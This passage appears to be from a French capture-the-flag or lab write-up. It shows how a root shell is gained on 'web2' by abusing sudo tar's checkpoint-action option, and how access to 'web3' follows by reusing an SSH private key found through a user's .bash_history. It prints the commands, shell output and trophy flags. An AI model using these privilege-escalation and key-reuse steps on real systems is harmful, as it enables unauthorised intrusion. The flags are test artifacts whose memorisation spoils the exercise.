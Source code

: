 Ici on voit qu'on peut rooter si on arrive a éxécuter une commande bash avec la commande `tar`. Si on ouvre le fichier `.bash_history` de l'user, on voit: 

```
batman@web2:~$ cat .bash_history 
...
less .bash_history 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
exit
```

Alors on peut taper la commande: 

`sudo -u root tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=bash`

et on root la machine **web2** et on trouve le **trophee:**

```
root@web2:~# ls
trophee.trp
root@web2:~# cat trophee.trp
chahf5toeseikee8aiSh6aseem7she
```

## **Trophee 5 - Accès à la machine web3**

**fohj2queethieveic2uiCahphu2Ga1**

Pour accéder à la machine web3, on revient à la machine `root@web1` et on entre dans l'user luiggi pour capturer son `.bash_history`:

```
root@web1:/home/luiggi# cat .bash_history 

...

ls -a
cat .bash_history 
ssh -i .ssh/id_rsa luiggi@10.1^
ssh -i .ssh/id_rsa luiggi@10.129.42.12
```

On peut voir qui la dernière commande fait une connection SSH avec la machine `10.129.42.12`. Lorsqu'on exécute la commande `ssh -i .ssh/id_rsa luiggi@10.129.42.12`, on peut accéder à luiggi dans web3 et récuperer le **trophee**:

```
root@web1:/home/luiggi# ssh -i .ssh/id_rsa luiggi@10.129.42.12
Linux web3 4.19.0-22-cloud-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

...

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 27 12:59:47 2023 from 10.129.42.10
luiggi@web3:~$ ls
monitor  monnitor2.sh  trophee.trp
luiggi@web3:~$ cat trophee.trp
fohj2queethieveic2uiCahphu2Ga1
```
